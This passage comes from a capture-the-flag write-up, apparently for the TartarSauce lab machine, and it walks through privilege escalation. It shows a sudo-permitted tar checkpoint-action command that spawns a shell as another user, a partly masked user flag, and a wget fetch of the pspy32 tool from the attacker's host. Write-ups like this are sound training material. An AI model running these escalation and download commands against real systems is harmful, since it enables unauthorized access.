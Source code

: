 

<h3>Privilege Escalation</h3>


`sudo -l` reveals that wwwdata can run /bin/tar as user `onuma`.

```
User www-data may run the following commands on TartarSauce:                                                       
    (onuma) NOPASSWD: /bin/tar     
```


[gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows us how we can utilize this to escalate to onuma user.

```
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

Now we can grab the user flag.
```
onuma@TartarSauce:~$ cat user.txt
cat user.txt
b2xxxxxxxxxxxxxxxxxxxxxxxxxxxxc7
```

We find `shadow_bkp` in onuma's home directory, owned by root, but with 777 privs. There maybe a backup
script running on a cronjob, pspy can help spot running processes.

`mkdir /var/tmp/boo` makes a working directory to use, use `wget` to put pspy32 into the target folder.

`wget http://10.10.14.17/pspy32`

make it executable: `chmod +x pspy32`

run it: `./pspy32`
